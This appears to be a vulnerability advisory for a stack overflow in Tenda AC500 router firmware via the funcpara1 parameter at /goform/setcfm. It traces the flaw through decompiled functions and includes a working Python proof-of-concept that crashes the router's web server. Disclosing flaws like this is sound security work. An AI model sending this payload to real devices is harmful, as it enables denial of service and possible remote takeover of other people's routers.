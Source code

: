 # Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter funcpara1 at url /goform/setcfm.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function formSetCfm line 66, v15 is a a user-controlled parameter(‘funcpara1’) and is read in without length check.Then in line 68, v15 becomes the first parameter of the function sub_4027C(), which leads to a stack overflow vulnerbility.
![Alt text](1.png)
Finally, in function sub_4027C() line 25, the content of v15 is copied into local variable s, which leads to a stack overflow vulnerbility.
![Alt text](2.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'funcname':'save_list_data',
    'funcpara1': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/setcfm'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline  

# Acknowledgment  
Credit to @peris-navince from Beijing University of Posts and Telecommunications.